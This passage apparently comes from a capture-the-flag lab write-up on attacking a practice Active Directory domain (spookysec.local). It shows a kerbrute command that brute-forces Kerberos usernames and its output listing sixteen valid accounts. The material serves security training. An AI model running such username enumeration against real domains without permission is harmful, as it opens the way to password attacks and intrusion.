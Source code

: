![ldapsearch](/assets/img/thm/windows/attackive-directory/ldapsearch.png)

> Do not forget to add `IP spookysec.local` into `/etc/hosts`  

{% highlight bash %}
$ ./kerbrute_linux_amd64 userenum --dc spookysec.local -d THM-AD userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/19/21 - Ronnie Flathers @ropnop

2021/05/19 04:49:28 >  Using KDC(s):
2021/05/19 04:49:28 >   spookysec.local:88

2021/05/19 04:49:29 >  [+] VALID USERNAME:       james@THM-AD
2021/05/19 04:49:29 >  [+] VALID USERNAME:       svc-admin@THM-AD
2021/05/19 04:49:30 >  [+] VALID USERNAME:       James@THM-AD
2021/05/19 04:49:30 >  [+] VALID USERNAME:       robin@THM-AD
2021/05/19 04:49:34 >  [+] VALID USERNAME:       darkstar@THM-AD
2021/05/19 04:49:36 >  [+] VALID USERNAME:       administrator@THM-AD
2021/05/19 04:49:40 >  [+] VALID USERNAME:       backup@THM-AD
2021/05/19 04:49:42 >  [+] VALID USERNAME:       paradox@THM-AD
2021/05/19 04:49:54 >  [+] VALID USERNAME:       JAMES@THM-AD
2021/05/19 04:49:58 >  [+] VALID USERNAME:       Robin@THM-AD
2021/05/19 04:50:23 >  [+] VALID USERNAME:       Administrator@THM-AD
2021/05/19 04:51:19 >  [+] VALID USERNAME:       Darkstar@THM-AD
2021/05/19 04:51:34 >  [+] VALID USERNAME:       Paradox@THM-AD
2021/05/19 04:52:27 >  [+] VALID USERNAME:       DARKSTAR@THM-AD
2021/05/19 04:52:44 >  [+] VALID USERNAME:       ori@THM-AD
2021/05/19 04:53:14 >  [+] VALID USERNAME:       ROBIN@THM-AD
2021/05/19 04:54:25 >  Done! Tested 73317 usernames (16 valid) in 296.440 seconds
{% endhighlight %}

